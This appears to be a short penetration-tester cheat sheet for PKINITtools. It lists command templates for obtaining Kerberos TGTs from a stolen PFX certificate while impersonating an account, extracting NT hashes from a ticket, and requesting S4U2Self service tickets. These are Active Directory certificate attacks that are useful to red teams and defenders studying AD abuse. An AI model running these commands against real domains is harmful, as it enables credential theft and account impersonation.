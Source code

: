 # PKINITtools

% adcs, certificate, pki, windows, Active directory, template, shadow credential


## Request a TGT using a PFX
#plateform/linux #target/remote #cat/RECON
error "KDC has no support for PADATA type (pre-authentication data)" means DC do not support PKINIT because their certificates do not have the Smart Card Logon EKU

use PassTheCert.py to attack ldap with a cert but no tgt can be obtained
```
gettgtpkinit -cert-pfx <pfx_file_> -pfx-pass <pfx_password|jubeaz> -dc-ip <dc_ip> <domain_fqdn>/<accountToImpersonate> <ccache_path>
```

## hash from TGT and AS REP key
#plateform/linux #target/remote #cat/RECON
```
export KRB5CCNAME=<ccache> && getnthash <domain_fqdn>/<ComputerAccount> -key <key>
```

## silver ticket using a certificate
#plateform/linux #target/remote #cat/RECON
```
gets4uticket 
```
Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate
